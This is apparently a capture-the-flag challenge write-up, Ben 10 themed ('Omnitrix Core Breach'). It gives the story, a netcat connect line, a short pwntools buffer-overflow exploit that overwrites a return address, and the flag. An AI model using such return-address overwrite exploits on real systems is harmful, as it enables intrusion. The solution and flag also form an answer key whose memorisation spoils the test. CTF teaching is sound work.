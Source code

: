 # Challenge 17

## Difficulty

Medium

## Title

Omnitrix Core Breach

## Description

Ben’s Omnitrix has started acting weird — it won’t allow any transformations. Suspiciously, the authorization module keeps rejecting his credentials, no matter what he types in.

Grandpa Max suspects foul play — maybe someone tampered with the firmware before leaving for the Null Void. Gwen pulled the system logs and found a strange binary labeled omnitrix.

> "This isn’t just a bug," she muttered. "Someone doesn't want Ben to transform."

Find a way into the core and unlock the transformation sequence. Somewhere inside the binary, the Omnitrix still remembers Ben. You just need to land at the exact right position to prove you're worthy.

Connect to the omnitrix console using:

```bash
nc omnitrix.ctf.aotfiesta25.tech 40213
```

## Files

- `omnitrix.c`: C source code for the challenge.
- `omnitrix`: Compiled binary for the challenge.

## Solution

Classic Buffer Overflow.

```python
from pwn import *

# Replace with the actual address of transform_into_xlr8
target_addr = p64(0x401196)

payload = b"A" * 64          # buffer
payload += b"B" * 8          # saved RBP
payload += target_addr       # return address

p = process("./omnitrix")
p.sendline(payload)
p.interactive()
```

## Flag

```text
cyn0x{h3_wh0_0v3rfl0ws_th3_st4ck_g41ns_0mn1tr1x_c0ntr0l}
```
